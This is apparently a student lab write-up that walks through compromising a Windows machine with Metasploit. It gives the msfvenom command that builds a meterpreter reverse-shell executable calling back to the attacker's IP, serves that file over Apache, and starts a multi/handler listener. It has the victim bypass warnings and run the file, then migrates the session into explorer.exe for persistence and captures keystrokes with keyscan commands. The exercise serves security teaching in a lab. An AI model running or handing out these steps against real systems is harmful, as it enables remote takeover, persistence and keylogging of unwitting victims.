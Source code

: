Compromising windows using Metasploit

Metasploit
Compromising windows using Metasploit

AIM:
To Compromise windows using Metasploit .

DESIGN STEPS:
Step 1:
Install kali linux either in partition or virtual box or in live mode

Step 2:
Investigate on the various categories of tools as follows:

Step 3:
Open terminal and try execute some kali linux commands

PROGRAM:
Find the attackers ip address using ifconfig.

## OUTPUT:
![image](https://github.com/Udhayasankaran04/Compromising-windows-using-Metasploit/assets/119393933/55e25116-ef60-4ecd-a949-2b08d7a422d8)
Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe.

## OUTPUT:
![image](https://github.com/Udhayasankaran04/Compromising-windows-using-Metasploit/assets/119393933/6c367e44-5e08-4164-a5ca-e7ac99ee8634)
copy the fun.exe into the apache /var/www/html folder 
![image](https://github.com/Udhayasankaran04/Compromising-windows-using-Metasploit/assets/119393933/8f1d2b83-04b2-4e5f-9135-c0b66e3fed8a)
Start apache server sudo systemctl apache2 start 
![image](https://github.com/Udhayasankaran04/Compromising-windows-using-Metasploit/assets/119393933/1d0594e2-bcce-47ef-a6f0-0454e5788022)
Check the status of apache2
![image](https://github.com/Udhayasankaran04/Compromising-windows-using-Metasploit/assets/119393933/8da36129-ca87-4760-af20-fe77b1476537)
Invoke msfconsole:

## OUTPUT:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit
![image](https://github.com/Udhayasankaran04/Compromising-windows-using-Metasploit/assets/119393933/b607223f-3e81-4e48-a6c1-16a2e76065c3)
On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.
![image](https://github.com/Udhayasankaran04/Compromising-windows-using-Metasploit/assets/119393933/8f037c68-1cdd-4164-948c-998161a0355e)
Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit
![image](https://github.com/Udhayasankaran04/Compromising-windows-using-Metasploit/assets/119393933/9358782f-39d2-4a76-8238-2e4a17f42e64)
To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted. 
![image](https://github.com/Udhayasankaran04/Compromising-windows-using-Metasploit/assets/119393933/5e3617f3-97c1-42ff-b26b-b751bbd34bb8)
Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![image](https://github.com/Udhayasankaran04/Compromising-windows-using-Metasploit/assets/119393933/f5af3b8d-ab12-4345-83d8-98094fb93b22)
keyscan_dump Shows the keystrokes captured so far
![image](https://github.com/Udhayasankaran04/Compromising-windows-using-Metasploit/assets/119393933/ef78d1de-015f-4c42-a3c4-fab748720960)
RESULT:
The Metasploit framework is used to compromise windows and is examined successfully.
